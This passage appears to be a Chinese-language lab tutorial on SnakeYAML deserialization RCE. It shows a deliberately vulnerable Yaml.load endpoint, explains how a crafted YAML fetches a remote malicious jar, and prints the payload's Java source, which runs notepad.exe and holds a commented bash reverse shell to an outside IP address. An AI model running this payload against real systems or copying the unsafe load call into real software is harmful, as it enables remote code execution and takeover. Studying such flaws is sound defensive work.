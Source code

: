 
![图片.png](https://image.cubox.pro/article/2022103016293294137/18059.jpg)-
![图片.png](https://image.cubox.pro/article/2022103016293297055/69378.jpg)

## yml命令执行

YAML(YAML Ain't Markup Language)，也可以叫做YML，是一种人性化的数据序列化的语言，类似于XML，JSON。SpringBoot的配置文件就支持yaml文件

### 使用snakeyaml将yaml文件解析成javabean

添加maven依赖

    复制<dependency>
    <groupId>org.yaml</groupId>
    <artifactId>snakeyaml</artifactId>
    <version>1.27</version>
    </dependency>
    

访问url为[http://localhost:8080/rce/vuln/yarm](http://localhost:8080/rce/vuln/yarm)-
利用的是SnakeYAML存在的反序列化漏洞来rce，在解析恶意 yml内容时会完成指定的动作。

先是触发java.net.URL去拉取远程 HTTP 服务器上的恶意 jar 文件,然后是寻找 jar 文件中实现javax.script.ScriptEngineFactory接口的类并实例化，实例化类时执行恶意代码，造成 RCE 漏洞。

    public void yarm(String content) {
    	Yaml y = new Yaml();
    	y.load(content);
    }
    

payload在[https://github.com/artsploit/yaml-payload/blob/mast](https://github.com/artsploit/yaml-payload/blob/mast)er/src/artsploit/AwesomeScriptEngineFactory.java有。-
payload AwesomeScriptEngineFactory.java源码如下：

    package artsploit; 
     import javax.script.ScriptEngine; 
    import javax.script.ScriptEngineFactory; 
    import java.io.IOException; 
    import java.util.List; 
     public class AwesomeScriptEngineFactory implements ScriptEngineFactory { 
     public AwesomeScriptEngineFactory() { 
    try { 
          Runtime.getRuntime().exec("notepad.exe"); 
          //Runtime.getRuntime().exec("Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/111.229.85.3/12323 0>&1"});"); 
        } catch (IOException e) { 
              e.printStackTrace(); 
       } 
    } 
     @Override 
    public String getEngineName() { 
    return null; 
    } 
     @Override 
    public String getEngineVersion() { 
    return null; 
    } 
     @Override 
    public List<String> getExtensions() { 
    return null; 
    } 
     @Override 
    public List<String> getMimeTypes() { 
    return null; 
    } 